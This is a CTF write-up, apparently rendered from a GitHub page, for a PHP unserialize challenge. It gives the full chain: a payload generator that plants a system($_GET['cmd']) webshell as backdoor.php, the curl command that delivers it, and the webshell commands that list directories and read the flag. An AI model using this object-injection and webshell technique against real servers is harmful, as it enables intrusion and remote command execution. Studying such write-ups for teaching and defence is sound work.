 # Web Exotic Attacks Handy Tool

We test:

```graphql
?tool=unserialize&input=O:4:"Test":0:{}
```

And get:

```makefile
object(__PHP_Incomplete_Class)#1 (1) { ["__PHP_Incomplete_Class_Name"]=> string(4) "Test" }
```

- This confirms PHP unserialize is active, and no filtering is in place.

### Write a Backdoor

Create a custom class locally:

```php
<?php
class PHPClass {
    public $condition = true;
    public $prop;

    public function __construct() {
        $this->prop = "system('echo <?php system(\$_GET[\"cmd\"]); ?> > backdoor.php');";
    }
}

echo urlencode(serialize(new PHPClass()));
?>
```
Save this as `payload.php` and run: **php payload.php > payload.txt**

Send the payload to the server: `curl "http://141.85.224.99:8004/?tool=unserialize&input=$(cat payload.txt)"`

This writes a webshell to: **http://141.85.224.99:8004/backdoor.php**

We confirm code execution:

```bash
http://141.85.224.99:8004/backdoor.php?cmd=ls /
→ Output:

bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
````

Then:

```bash
http://141.85.224.99:8004/backdoor.php?cmd=ls /home
→ ctf

http://141.85.224.99:8004/backdoor.php?cmd=ls /home/ctf
→ flag.txt

http://141.85.224.99:8004/backdoor.php?cmd=cat /home/ctf/flag.txt
→ SSS{y0u_g0t_a_r3v3rs3_sh3ll_didnt_y0u_l1ttl3_pr1ck}
```

Remove your shell: `http://141.85.224.99:8004/backdoor.php?cmd=rm backdoor.php`
